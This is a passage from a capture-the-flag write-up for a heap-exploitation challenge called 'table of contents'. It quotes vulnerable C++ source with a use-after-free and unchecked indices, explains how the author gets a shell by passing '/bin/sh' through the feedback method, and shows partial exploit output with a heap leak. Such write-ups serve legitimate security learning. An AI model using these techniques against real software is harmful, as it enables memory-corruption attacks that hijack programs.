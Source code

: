 ```
3) Fetch an item
4) Return book
5) Leave feedback
```
We're close, but not quite there. The win function requires that we pass it a single parameter; presumably '/bin/sh' is preferrable. If we go back to the source code and look at the definitions of our virtual methods, we can see that feedback() is the only one that takes an argument. We can trigger it by using the leave_feedback() option, which will call the feedback() method with the feedback that we input as the first argument. 
```
        virtual void add_page() {
            printf("Enter size of page: ");
            unsigned int size;
            std::cin >> size;
            flush();
            char *buf = (char *)malloc(size);
            printf("Enter data: ");
            std::cin.read(buf, size);
            this->pages.push_back(buf);
        }
        virtual void tear_page() {
            printf("Enter index of page: ");
            unsigned int index;
            std::cin >> index;
            puts(this->pages[index]);
            free(this->pages[index]);
        }
        virtual void read() {
            for (char * &page: this->pages) {
                puts(page);
            }
        }

        virtual void feedback(const char* content) {
            puts("Your feedback is highly valued!");
            memset((void *)content, 0, strlen(content));
        }
...
void leave_feedback() {
    unsigned int index;
    printf("Enter index of book for feedback: ");
    std::cin >> index;
    flush();
    std::string* feedback = new std::string();
    printf("Enter feedback: ");
    getline(std::cin, *feedback);
    items[index]->feedback(feedback->c_str());
}

```
So, instead of adding a page, I now leave the feedback '/bin/sh' on our first book, and I have a shell on my local machine!
```
knittingirl@piglet:~/CTF/romCTF/pwn_table_of_contents$ python3 tableofcontents_writeup.py NOPTRACE
[+] Starting local process './tableofcontents': pid 2590193
[!] Skipping debug attach since context.noptrace==True
b'WELCOME!\n1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5) Leave feedback'
b'\n> Enter title'
b' > 1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5) Leave feedback'
b'\n> What index to get?'
b' 1) Borrow book\n2) Add a page\n3) Tear out page'
b'\n> Your reference number is: '
b'0x1d313a0'
Here is my heap leak 0x1d313a0
```